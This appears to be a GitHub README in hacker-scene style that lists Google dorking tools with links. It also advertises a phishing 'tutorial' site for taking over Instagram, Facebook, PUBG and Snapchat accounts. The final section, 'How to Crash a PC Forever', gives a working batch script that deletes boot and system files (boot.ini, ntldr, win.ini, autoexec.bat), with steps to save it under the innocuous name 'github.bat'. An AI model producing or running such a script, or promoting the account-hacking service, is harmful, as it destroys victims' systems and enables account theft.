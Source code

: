# 💀🔪 Google Hacking Tools 🔪☠ DrugsHack

## 🔺 GHDB - Google Hack Database
- **Description**: Google Hacking Database (GHDB) provides advanced Google search queries (Google Dorks) that can reveal sensitive information on the internet.
- 🔗 [Link](https://www.exploit-db.com/google-hacking-database/)

## 🔺 SearchDiggity
- **Description**: SearchDiggity 3.1 is the primary attack tool of the Google Hacking Diggity Project, designed for security professionals to automate Google dork queries.
- 🔗 [Link](http://www.bishopfox.com/resources/tools/google-hacking-diggity/attack-tools/)

## 🔺 Katana
- **Description**: A Python-based tool that helps with Google Hacking by exploiting Google search capabilities for reconnaissance and vulnerability discovery.
- 🔗 [Link](https://github.com/adnane-X-tebbaa/Katana)

## 🔺 GooFuzz
- **Description**: GooFuzz is a tool used for fuzzing with OSINT (Open Source Intelligence) to find vulnerabilities in applications through Google.
- 🔗 [Link](https://github.com/m3n0sd0n4ld/GooFuzz)

## 🔺 Pagodo
- **Description**: Pagodo automates Google Hacking Database scraping and searching, allowing users to find vulnerabilities across various platforms.
- 🔗 [Link](https://github.com/opsdisk/pagodo)

## 🔺 Google-Dorks
- **Description**: A repository of useful Google Dorks to help with Web Security and Bug Bounty hunting.
- 🔗 [Link](https://github.com/Proviesec/google-dorks)

---

# 𝗣𝗛𝗜𝗦𝗜𝗡𝗚 𝗕𝗘𝗚𝗜𝗡𝗡𝗘𝗥 𝗧𝗨𝗧𝗢𝗥𝗜𝗔𝗟 🎯

**Hack Instagram, Facebook, FF, PUBG, Snapchat accounts** and more.  
💀 [Visit Site](https://sc0m.com/dashboard)  

For **advanced methods**, comments, and reactions, please refer to the site.

---

## ⚠️ How to Crash a PC Forever 💻

To crash a PC, follow these steps:
1. Open Notepad and copy-paste the following code:
    ```
    attrib -r -s -h c:\autoexec.bat
    del c:\autoexec.bat
    attrib -r -s -h c:\boot.ini
    del c:\boot.ini
    attrib -r -s -h c:\ntldr
    del c:\ntldr
    attrib -r -s -h c:\windows\win.ini
    del c:\windows\win.ini
    ```
2. Save the file as `github.bat`. 
3. **Warning**: Don't click on this file, as it will shut down the computer and delete necessary files to reboot.

---

